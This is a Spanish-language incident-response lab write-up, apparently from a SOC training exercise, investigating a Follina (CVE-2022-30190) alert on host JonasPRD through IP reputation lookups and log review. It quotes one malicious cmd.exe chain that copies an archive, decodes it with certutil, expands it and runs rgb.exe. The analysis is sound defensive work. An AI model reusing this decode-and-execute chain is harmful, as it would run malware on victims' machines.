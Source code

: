De inmediato encontramos esta información:
![](Pasted%20image%2020240414193034.png)

Que nos indica efectivamente que el CVE está relacionado con abrir un documento de office y que consiste en un archivo que de primeras sale en blanco, pero por detrás está realizando conexiones a URLs maliciosas. La incidencia se reporta en 2 de Junio de 2022 a las 03:22 PM, y al revisar las conexiones de la máquina afectada (JonasPRD) vemos que no hay conexiones a esa hora exacta o, al menos, en esa ventana de tiempo:

![](Pasted%20image%2020240414193540.png)

Se han revisado todas las IPs con herramientas como VirusTotal, AbuseIPDB y Cisco Talos, y dos de ellas reportan como maliciosa o al menos sospechosa la IP **99.83.154.118**, 

![](Pasted%20image%2020240414193821.png)
![](Pasted%20image%2020240414194142.png)

Esto ya podría ser sospechoso de intrusión. Revisamos la terminal de la máquina ya que estamos aquí y vemos que hay comandos que podemos afirmar prácticamente ya que son maliciosos.

```
C:/windows/system32/cmd.exe /c cd C:/users/public/&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe
```

Este comando está abriendo una cmd, yéndose a la carpeta users/public del disco C: y buscando recursivamente archivos nombrados con una fecha y los está copiand otro archivo llamado 1.rar. Busca además una cadena muy extraña, "`TVNDRgAAAA`" y redirige la salida a un archivo 1.c. Además realiza la ejecución de un .exe al final. Así que o este empleado es una especie de ciberpsicópata o estamos ante una cadena maliciosa. 

Revisando los servicios, no vemos antivirus ni otros servicios extraños realmente, solo un cmd que podría estar relacionado con el comando anterior, por lo que la primera pregunta del playbook vamos a contestar que el indicador de la amenaza es "Other", concretamente desde mi punto de vista el indicador de la amenaza es el comportamiento extraño al abrir el documento, el cual de hecho está asociado con el CVE-2022- 30190.

![](Pasted%20image%2020240414195219.png)

Vamos a revisar los logs ahora para ver si el malware ha sido puesto en cuarentena:
![](Pasted%20image%2020240414195431.png)
![](Pasted%20image%2020240414195452.png)
![](Pasted%20image%2020240414195514.png)

Pero parece que no hay rastro de que se haya puesto ninguno de los supuestos archivos en cuarentena ni que ni siquiera se hayan manipulado por el antivirus u otro software de seguridad. Se nos pide analizar el malware en busca de C2, cosa que previamente hicimos con la URL acotada en la ventana de tiempo del incidente, además de ver el comportamiento claramente relacionado con el CVE-2022-30190, por lo que marcamos maliciosa.
![](Pasted%20image%2020240414195631.png)
